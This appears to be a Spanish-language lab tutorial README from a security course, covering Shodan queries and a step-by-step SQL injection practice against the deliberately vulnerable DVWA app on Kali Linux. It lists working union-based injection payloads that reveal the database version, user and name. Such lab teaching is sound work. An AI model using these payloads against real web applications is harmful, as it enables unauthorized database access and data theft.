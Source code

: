 ### [Segundo video](https://youtu.be/8clDK_9lm-A)

Este video es sobre las consultas en el servidor Shodan debido a que en el primero saltó el error de no poder realizar más consultas en ese día.

## [SQL Injection](https://youtu.be/rOrwRrh_BFA)

En este video se realizará la práctica vista en uno de los cursos de seguridad sobre __SQL Injection__ el cual es un método de infiltración de código, ante la falta de validación de campos, en operaciones sobre una base de datos.

Esta técnica que consiste en inyectar código malicioso en aplicaciones web, se usa para que una persona no autorizada busque tener acceso a la información como:
- usuarios y contraseñas
- Acceso al servidor
- Acceso al panel de administración
- Robo de datos de visitantes
- Ingeniería social con los usuarios

Esto desemboca en problemas de confidencialidad, autenticación e integridad.

La práctica se realizará en una kali linux donde se tendrá instalado la página web de __DVWA__, la cual requiere de tener instalado un servicio apache, php y mysql.
Dejaremos la seguridad en _Low_, ya que es un prueba y nos aprovecharemos de la vulnerabilidad de la base de datos de aceptar la lógica _1=1_.

Accediendo a la pestaña _SQL Injection_ aparece un campo _User ID_ en el que se puede insertar un número. Si dicho usuario existe nos devolverá información del mismo.
Al añadir números como 1, 2, 3 recibimos respuesta del usuario que ocupa dicho “id”

~~~
2' and 1=1 #
~~~
Esto nos devuelve la segunda entrada (Gordon) de la base de datos, por lo que está interpretando la expresión que se encuentra a su derecha

~~~
2' and 1=1 order by 3 #
~~~
Da un error (unknown column 3) ya que no existe dicha columna, porque la consulta solo nos devuelve los campos _First_name y Surname_. Al ordenar la salida nos da la pista de que quizás se puedan ejecutar acciones en la propia consulta

~~~
2' and 1=1 union select 1,versión() #
~~~
En este caso nos devuelve la versión concreta de la base de datos.

~~~
2' and 1=1 union select 1,user() #
~~~
Usuario administrador de la base de datos.

~~~
2' and 1=1 union select 1,database() #
~~~
Nombre de la base de datos.
